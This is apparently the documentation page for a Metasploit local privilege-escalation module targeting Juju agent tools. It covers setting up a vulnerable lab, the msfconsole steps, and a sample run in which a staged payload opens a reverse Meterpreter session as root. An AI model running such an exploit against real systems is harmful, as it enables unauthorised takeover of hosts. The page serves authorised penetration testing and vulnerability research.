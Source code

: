 ## Vulnerable Application

### Description

  This module attempts to gain root privileges on Juju agent systems running the juju-run agent utility.

  Juju agent systems running agent tools prior to version 1.25.12, 2.0.x before 2.0.4, and 2.1.x before 2.1.3, provide a UNIX domain socket to manage software ("units") without setting appropriate permissions, allowing unprivileged local users to execute arbitrary commands as root.

  [Juju](https://juju.ubuntu.com/) is an open source application modeling tool designed for devops to deploy, configure, scale, and operate software on public and private clouds.

  * Homepage: https://juju.ubuntu.com/
  * Github: https://github.com/juju/juju

  This module has been tested successfully with Juju agent tools:

  * Versions 1.18.4, 1.25.5 and 1.25.9 on Ubuntu 14.04.1 LTS x86

  Deployed by Juju:

  * Versions 1.18.1-trusty-amd64 and 1.25.6-trusty-amd64 on Ubuntu 14.04.1 LTS x86_64


### Installation

  Two systems are required. The first runs Juju and the second runs the Juju agent tools.

  Ensure the client system has SSH installed and network accessible.

  The following installation instructions are for Ubuntu 14.04.1 LTS ("trusty").

  ```sh
  # List avilable juju packages
  apt-cache showpkg juju

  # Install a vulnerable package
  apt-get install juju-core=1.18.1-0ubuntu1

  # Generate a config file
  juju init
  ```

  Edit the `manual` section of the newly generated config file, adding the appropriate `bootstrap-host` and `bootstrap-user` for the client system, ensuring the appropriate `default-series` is set (`trusty` for Ububtu 14.x).

  ```
  manual:
    bootstrap-host: juju-client.local # Remote host
    bootstrap-user: user              # User for SSH access
    default-series: trusty            # Remote host OS series
  ```

  Switch to the `manual` environment and bootstrap the remote host specified above:

  ```sh
  juju switch manual
  juju bootstrap
  ```

  Once the bootstrapping is complete, check if it was successful. You should see a machine with ID# 0:

  ```sh
  juju stat
  ```

  Deploy any unit to the machine with ID# 0. Units can be found in the [Juju store](https://jujucharms.com/store).

  ```sh
  juju deploy zabbix-agent --to 0
  ```

  Check if it worked:

  ```sh
  watch juju stat
  ```


  Optionally, to test various versions of the juju agent utilities, the juju tools can be updated remotely. (Note: Downgrading is more difficult.)

  ```sh
  # You may or may not need to `set-env` the upstream tools URL:
  juju set-env agent-metadata-url=https://streams.canonical.com/juju/tools
  juju set-env agent-stream=proposed

  # Be careful to select a version which exists, otherwise bad things will happen.
  juju upgrade-juju --version 1.25.2
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/juju_run_agent_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(multi/handler) > use exploit/linux/local/juju_run_agent_priv_esc 
  msf exploit(linux/local/juju_run_agent_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/juju_run_agent_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Trying 3 units...
  [+] Unit "unit-zabbix-agent-1" uses a privileged socket
  [*] Writing '/tmp/.tp9oGmPSvx' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.130
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.130:43760) at 2018-01-13 12:33:48 -0500
  [+] Deleted /tmp/.tp9oGmPSvx

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.130
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

